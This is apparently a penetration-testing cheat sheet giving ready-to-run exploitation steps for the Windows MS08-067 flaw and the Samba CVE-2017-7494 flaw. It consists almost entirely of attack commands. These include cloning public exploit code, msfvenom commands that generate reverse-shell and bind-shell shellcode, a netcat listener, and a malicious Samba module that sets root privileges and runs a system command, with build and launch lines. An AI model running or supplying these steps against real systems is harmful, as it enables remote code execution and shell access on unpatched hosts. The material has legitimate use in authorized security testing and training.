 ### MS08-067

```
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```

### CVE-2017-7494

```
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```
